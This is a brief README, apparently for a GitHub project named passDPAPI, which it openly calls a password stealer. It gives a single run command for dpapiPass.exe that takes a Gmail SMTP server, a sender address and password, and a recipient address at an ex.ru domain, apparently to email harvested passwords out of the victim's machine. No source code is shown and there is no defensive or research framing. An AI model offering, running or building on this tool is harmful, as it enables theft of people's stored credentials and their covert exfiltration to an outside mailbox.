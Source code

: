 ## passDPAPI
Password's stealer

#### Run
`.\dpapiPass.exe smtp.gmail.com email_from@gmail.com password email_to@ex.ru`   
For example, you can run `/run/example.bat`.

